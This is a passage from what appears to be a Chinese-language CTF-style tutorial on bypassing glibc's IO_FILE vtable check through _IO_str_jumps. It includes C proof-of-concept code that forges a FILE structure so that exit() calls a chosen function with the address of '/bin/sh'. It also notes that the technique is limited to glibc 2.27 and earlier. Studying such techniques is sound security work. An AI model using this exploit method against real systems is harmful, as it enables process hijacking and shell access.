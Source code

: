 ```c
    // 又要满足fp->_flags & _IO_USER_BUF为假，而_IO_USER_BUF的值为1，因此最后一个字节也为0
    *(short*)fp = 0;

    // 虚表指向_IO_str_jumps
    *(size_t*)((char*)fp + 0xd8) = *(size_t*)(((char*)fp + 0xd8)) + 0xc0;

    // 此时偏移0xe0处是要执行的函数_IO_str_overflow
    *(size_t*)((char*)fp + 0xe0) = (size_t)winner;

    // 函数参数：new_size = 2 * (fp->_IO_buf_end - fp->_IO_buf_base) + 100
    // 为了方便我们一般直接设置fp->_IO_buf_base为0，方便计算，那么2 * fp->_IO_buf_end + 100 需要等于函数参数例如/bin/sh的地址
    // 换算一下也就是 _IO_buf_end = (bin_sh_addr - 100) / 2，注意当bin_sh_addr为奇数的时候向下取整，因此地址为奇数的时候直接将其+1
    *(size_t*)((char*)fp + 0x38) = 0;
    char* code = "/bin/sh\x00";
    size_t address = (size_t)code % 2 == 0 ? (size_t)code : (size_t) code + 1; 
    *(size_t*)((char*)fp + 0x40) = (size_t)((address - 100) / 2);
    
    // 下一个条件： 2*(fp->_IO_buf_end - fp->_IO_buf_base) + 100不能为负数，由于其为函数参数上面已经构造，不再需要管

    // 下一个条件：(pos = fp->_IO_write_ptr - fp->_IO_write_base) >= ((fp->_IO_buf_end - fp->_IO_buf_base) + flush_only(1))
    // 我们已经知道fp->_IO_buf_base为0，_IO_buf_end为(bin_sh_addr - 100)/2
    // 那么在同样设置fp->_IO_write_base为0的情况下，需要fp->_IO_write_ptr >= (bin_sh_addr - 100)/2 + 1
    *(size_t*)((char*)fp + 0x20) = 0;
    *(size_t*)((char*)fp + 0x28) = (size_t)((address - 100) / 2 + 1);
    
    

    exit(1);
    // // 最终会在exit、return、以及libc执行abort调用。
    return 0;
}
```

## 后记

绕过`vtable check`的方法除了`_IO_str_jumps`虚表，`_IO_wstr_jumps`虚表也是同样的。`_IO_wstr_jumps`和`_IO_str_jumps`功能基本一致，只是`_IO_wstr_jumps`是处理`wchar`的。

上面提到了这些`vtable check`的绕过方法都只是在`glibc2.27`及以下可用，因为到了`glibc2.28`中，`_IO_strfile`中的`_allocate_buffer`和`_free_buffer`已经被简单粗暴地用`malloc`和`free`来替换了，自然也就没有函数指针用于覆盖。

参考链接：

[raycp师傅的IO_FILE vtable绕过](https://xz.aliyun.com/t/5579#toc-1)

# IO_FILE基础知识供查阅

## _IO_FILE结构体和对应起始处的偏移
